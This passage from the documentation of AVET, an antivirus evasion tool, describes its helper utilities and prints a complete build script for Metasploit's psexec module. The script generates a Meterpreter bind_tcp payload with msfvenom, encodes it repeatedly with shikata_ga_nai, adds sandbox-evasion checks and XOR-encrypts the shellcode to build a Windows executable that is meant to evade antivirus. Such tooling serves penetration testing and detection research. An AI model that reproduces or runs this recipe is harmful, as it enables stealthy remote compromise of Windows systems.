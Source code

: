 ##### data_raw_to_c
Takes raw data as input from a file, converts it into C-array format and writes output to another file.
This aids in providing the correct format for the static_from_file data retrieval method.

##### generate_key
Key generation utility. Generates either a (non-cryptographically) random key or takes a preset key as input,
and outputs the raw key data into a specified file.
This aids in providing key material for the AVET encryption feature.

##### sh_format
Utility from AVET 1.3 that performs AVET encoding.


AVET & metasploit psexec
------------------------
AVET supports metasploit's psexec module. The corresponding build script looks like:

```
#!/bin/bash          
# simple example script for building the .exe file
# for use with msf psexec module

# include script containing the compiler var $win32_compiler
# you can edit the compiler in build/global_win32.sh
# or enter $win32_compiler="mycompiler" here
. build/global_win32.sh

# import global default lhost and lport values from build/global_connect_config.sh
. build/global_connect_config.sh

# override connect-back settings here, if necessary
LPORT=$GLOBAL_LPORT

# make meterpreter bind payload, encoded 20 rounds with shikata_ga_nai
msfvenom -p windows/meterpreter/bind_tcp lport=$LPORT -e x86/shikata_ga_nai -i 20 -f raw -a x86 --platform Windows > input/sc_raw.txt

# import feature construction interface
. build/feature_construction.sh

# add evasion techniques
add_evasion fopen_sandbox_evasion
add_evasion gethostbyname_sandbox_evasion
printf "\n#define HOSTVALUE \"this.that\"" >> source/evasion/evasion.include

# generate key file
generate_key preset aabbcc12de input/key_raw.txt

# encode shellcode
encode_payload xor input/sc_raw.txt input/scenc_raw.txt input/key_raw.txt

# array name buf is expected by static_from_file retrieval method
./tools/data_raw_to_c/data_raw_to_c input/scenc_raw.txt input/scenc_c.txt buf

# set shellcode source
set_payload_source static_from_file input/scenc_c.txt

# convert generated key from raw to C into array "key"
./tools/data_raw_to_c/data_raw_to_c input/key_raw.txt input/key_c.txt key

# set key source
set_key_source static_from_file input/key_c.txt

```